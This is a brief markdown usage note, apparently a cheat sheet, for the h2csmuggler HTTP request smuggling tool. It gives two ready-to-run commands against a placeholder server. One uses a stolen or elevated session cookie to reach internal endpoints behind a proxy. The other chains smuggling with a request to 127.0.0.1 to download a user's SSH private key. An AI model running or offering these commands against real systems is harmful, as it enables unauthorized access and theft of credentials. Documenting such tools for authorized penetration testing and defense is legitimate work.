 # h2csmuggler

## Link: https://github.com/BishopFox/h2csmuggler

### Usage:

### This tool is used for HTTP Request smuggling. Here are a few examples:

 - python3 h2csmuggler.py -H "Cookie: session=SESSION_COOKIE" -X "HTTP_METHOD" -x http://TARGET_SERVER.COM http://TARGET_SERVER.COM/TARGET_ENDPOINT (By using a cookie session, preferably elevated privileges, we can craft requests to access internal resources from a web application that are hidden behind a proxy, AKA HTTP Request Smuggling)

 - python3 h2csmuggler.py -H "Cookie: session=SESSION_COOKIE" -X "GET" -x http://TARGET_SERVER.COM http://TARGET_SERVER.COM/download?url=http://127.0.0.1:3923/.cpr/%252Fhome%252FUSER%252F.ssh%252Fid_ecdsa (Download the ssh private key via request smuggling)
   
